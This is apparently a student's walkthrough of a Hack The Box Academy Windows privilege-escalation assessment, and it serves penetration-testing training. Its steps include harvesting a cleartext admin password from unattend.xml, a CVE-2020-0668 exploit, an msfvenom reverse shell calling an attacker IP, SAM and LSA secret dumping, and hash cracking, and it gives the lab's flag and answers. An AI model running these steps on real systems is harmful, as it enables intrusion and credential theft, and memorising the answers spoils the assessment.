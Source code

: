 # Skills Assessment 2

As an add-on to their annual penetration test, the INLANEFREIGHT organization has asked you to perform a security review of their standard Windows 10 gold image build currently in use by over 1,200 of their employees worldwide. The new CISO is worried that best practices were not followed when establishing the image baseline, and there may be one or more local privilege escalation vectors present in the build. Above all, the CISO wants to protect the company's internal infrastructure by ensuring that an attacker who can gain access to a workstation (through a phishing attack, for example) would be unable to escalate privileges and use that access move laterally through the network. Due to regulatory requirements, INLANEFREIGHT employees do not have local administrator privileges on their workstations.

You have been granted a standard user account with RDP access to a clone of a standard user Windows 10 workstation with no internet access. The client wants as comprehensive an assessment as possible (they will likely hire your firm to test/attempt to bypass EDR controls in the future); therefore, Defender has been disabled. Due to regulatory controls, they cannot allow internet access to the host, so you will need to transfer any tools over yourself.

Enumerate the host fully and attempt to escalate privileges to administrator/SYSTEM level access.

## Questions

<details>

<summary>Initial Enumeration</summary>

### Password Enumeration

```
PS C:\> findstr /SIM /C:"iamtheadministrator" *.txt *.ini *.cfg *.config *.xml
Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Windows\Panther\unattend.xml
FINDSTR: Cannot open Windows\Panther\UnattendGC\diagerr.xml
FINDSTR: Cannot open Windows\Panther\UnattendGC\diagwrn.xml
FINDSTR: Cannot open Windows\PLA\System\System Diagnostics.xml
FINDSTR: Cannot open Windows\PLA\System\System Performance.xml
FINDSTR: Cannot open Windows\System32\LogFiles\setupcln\diagerr.xml
FINDSTR: Cannot open Windows\System32\LogFiles\setupcln\diagwrn.xml
FINDSTR: Cannot open Windows\System32\Sysprep\Panther\diagerr.xml
FINDSTR: Cannot open Windows\System32\Sysprep\Panther\diagwrn.xml
FINDSTR: Cannot open Windows\WinSxS\amd64_microsoft-windows-u..userpredictionmodel_31bf3856ad364e35_10.0.18362.1_none_5f36214c9498167b\SBCModel.txt
```

We found the unattend.xml file which contains the credentials

![](<../../.gitbook/assets/image (99).png>)

<pre><code><strong>iamtheadministrator:Inl@n3fr3ight_sup3rAdm1n!
</strong></code></pre>

</details>



<details>

<summary>Privilege escalation</summary>

The host seems to be vulnerable to CVE-2020-0668

![](<../../.gitbook/assets/image (115).png>)

To exploit this vulnerability first find and verify that we have a read and write access to the binary running in SYSTEM context.

```
PS C:\Users\htb-student\Desktop> icacls "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"     C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

We can see that Users has a following output which could be exploitable.

```
BUILTIN\Users:(I)(RX)
```

Next Generating the reverse shell payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=7890 -f exe -o script.exe
```

make a copy of the payload **(one wil be corrupted in the first attempt)**

![](<../../.gitbook/assets/image (125) (1).png>) **(make sure to rename them to the target binary or mainenanceservice.exe)**

executing the exploit along with the first reverse shell payload **(make sure that the files passed in are all full path!!)**

<pre><code><strong>.\&#x3C;exploit.exe> .\&#x3C;reverse shell.exe> "&#x3C;system context binary .exe>
</strong>.\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
</code></pre>

We can see the following that the file has changed it's permissions

```
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          ACADEMY-WINLPE-\htb-student:(I)(F)
                                                                          ACADEMY-WINLPE-\mrb3n:(I)(F)
```

Change the session to cmd and copy the 2nd copy of the reverse shell file using following command

```
cmd
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Desktop>copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
        1 file(s) copied.
```

**Lastly, start the service and wait for the shell to arrive**

```
C:\Users\htb-student\Desktop>net start MozillaMaintenance
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```

```
rlwrap nc -lvnp 7890
listening on [any] 7890 ...
connect to [10.10.14.5] from (UNKNOWN) [10.129.250.154] 49681
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type flag.txt
type flag.txt
el3vatEd_1nstall$_v3ry_r1sky
C:\Users\Administrator\Desktop>
```

</details>



<details>

<summary>Post exploitation</summary>

dump **SAM SYSTEM** and **SECURITY** hives

```
C:\Users\Administrator\Desktop>reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\sam C:\sam.save
The operation completed successfully.

C:\Users\Administrator\Desktop>reg.exe save hklm\system C:\system.save
reg.exe save hklm\system C:\system.save
The operation completed successfully.

C:\Users\Administrator\Desktop>reg.exe save hklm\security C:\security.save
reg.exe save hklm\security C:\security.save
The operation completed successfully.
```

Move them to attack machine and crack them locally

```
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xfab4b2e32a415ea36f846b9408aa69af
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:aad797e20ba0675bbcb3e3df3319042c:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6b4dacb8dbcf0533bbe34dc66cc0fb8848b0e8ba
dpapi_userkey:0xa61d37e2c548f9206031efff6633f3fb836dbdd6
[*] NL$KM 
 0000   84 AF 72 07 AA 56 82 65  33 F2 C4 60 C3 72 AF C7   ..r..V.e3..`.r..
 0010   E3 0B 71 ED C9 AF 49 1E  89 E5 DA A1 07 5E 7F 88   ..q...I......^..
 0020   65 EC 26 AF 2D A9 2A DC  9C E6 36 7D 9A 2F D9 F6   e.&.-.*...6}./..
 0030   57 44 B6 06 A6 57 7E 29  CD 30 B2 8F 7F 86 CB 47   WD...W~).0.....G
NL$KM:84af7207aa56826533f2c460c372afc7e30b71edc9af491e89e5daa1075e7f8865ec26af2da92adc9ce6367d9a2fd9f65744b606a6577e29cd30b28f7f86cb47
[*] Cleaning up...
```

```
wksadmin #seems to be our target.
```

hash cracking&#x20;

```
echo "wksadmin:1003:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::" > hash
hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt

5835048ce94ad0564e29a924a03510ef:password1
```

</details>

Find left behind cleartext credentials for the iamtheadministrator domain admin account.



Escalate privileges to SYSTEM and submit the contents of the flag.txt file on the Administrator Desktop

* ```
  el3vatEd_1nstall$_v3ry_r1sky
  ```

There is 1 disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account.

* ```
  5835048ce94ad0564e29a924a03510ef:password1
  ```
